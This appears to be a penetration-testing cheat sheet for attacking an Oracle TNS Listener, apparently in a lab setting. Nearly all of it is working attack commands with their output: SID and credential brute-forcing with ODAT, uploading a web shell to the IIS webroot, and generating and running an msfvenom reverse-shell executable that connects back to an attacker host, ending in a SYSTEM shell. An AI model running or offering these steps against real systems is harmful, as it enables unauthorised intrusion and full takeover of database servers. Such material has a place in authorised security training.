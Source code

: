 # (1541) Oracle TNS Listener

<details>

<summary>Brute-Force SID, usernames, passwords (credentials)</summary>

### Brute-Force SID

<pre class="language-bash"><code class="lang-bash">git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py all -s 10.10.10.82 -p 1521
# [+] Checking if target 10.10.10.82:1521 is well configured for a connection...
# [+] According to a test, the TNS listener 10.10.10.82:1521 is well configured. Continue...

# [1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
# [+] Impossible to know if target is vulnerable to a remote TNS poisoning because SID is not given.

# [2] (10.10.10.82:1521): Searching valid SIDs
# [2.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
# [+] 'XE' is a valid SID. Continue...            ################################################# | ETA:  00:00:02 
<strong># 100% 
</strong></code></pre>

### Brute-Force Oracle Credentials

```bash
./odat.py passwordguesser -s 10.10.10.82 -d <SID NAME>
# ./odat.py passwordguesser -s 10.10.10.82 -d XE
# [+] Valid credentials found: scott/tiger. Continue...           ###############                   | ETA:  00:03:20

```

</details>

<details>

<summary>Upload Reverse Shell</summary>

```bash
./odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile "C:\inetpub\wwwroot" shell.aspx shell.aspx 

# [1] (10.10.10.82:1521): Put the shell.aspx local file in the C:\inetpub\wwwroot folder like shell.aspx on the 10.10.10.82 server
# [+] The shell.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the shell.aspx file

Browse to http://10.10.10.82/shell.aspx
```

</details>

<details>

<summary>Obtain SYSTEM Shell directly (Upload + Execute)</summary>

<pre class="language-bash"><code class="lang-bash">msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe -o reverse.exe 
<strong>#[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
</strong>#[-] No arch selected, selecting arch: x64 from the payload
#No encoder specified, outputting raw payload
#Payload size: 460 bytes
#Final size of exe file: 7168 bytes
#Saved as: reverse.exe

./odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile "C:\temp" reverse.exe ../reverse.exe 

#[1] (10.10.10.82:1521): Put the ../reverse.exe local file in the C:\temp folder like reverse.exe on the 10.10.10.82 server
#[+] The ../reverse.exe file was created on the C:\temp directory on the 10.10.10.82 server like the reverse.exe file

./odat.py externaltable -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --exec "c:\temp" reverse.exe

#[1] (10.10.10.82:1521): Execute the reverse.exe command stored in the c:\temp path


nc -lvp 443              
#listening on [any] 443 ...
#10.10.10.82: inverse host lookup failed: Unknown host
#connect to [10.10.14.2] from (UNKNOWN) [10.10.10.82] 49194
#Microsoft Windows [Version 6.3.9600]
#(c) 2013 Microsoft Corporation. All rights reserved.

#C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>whoami
#whoami
#nt authority\system
</code></pre>

</details>
